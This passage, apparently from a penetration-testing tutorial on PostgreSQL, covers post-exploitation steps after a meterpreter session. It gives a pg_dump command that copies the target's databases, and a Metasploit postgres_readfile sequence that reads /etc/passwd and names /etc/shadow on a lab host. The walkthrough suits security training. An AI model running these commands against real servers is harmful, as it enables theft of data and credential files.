 ![](../images/exploiting_postgres_using_linux_payload_3.png)
Here the payload get uploaded and gets executed by the target and we got a meterpreter session...

### Post-Exploitation things
Here we got successfully connected to psql server of the target and also get a remote shell using the linux payload to the target. Now we can perform dumping the contents of the databases present on the postgres server, i.e we can copy the entire data as well as the schema of the databases and tables present on the postgres server.

**For that we can use pg_dump**
```
pg_dump -h 192.168.1.103 -U postgres --password -d postgres --table=* -f db_dump.txt
```
**But as we got above that there is not a single relation/table present on this targeted postgres server, So we can't get anything**

**Stealing sensitive file and data**
As we have the crudential of postgres, we can use readfile module to read the content of sensitive file like **etc/passwd** and **etc/shadow**.
```
msfconsole -q
msf > search postgres_readfile
msf > use auxiliary/admin/postgres/postgres_readfile
msf auxiliary(admin/postgres/postgres_readfile) > show options
msf auxiliary(admin/postgres/postgres_readfile) > set RHOSTS 192.168.1.103
msf auxiliary(admin/postgres/postgres_readfile) > set RFILE /etc/passwd
msf auxiliary(admin/postgres/postgres_readfile) > run
```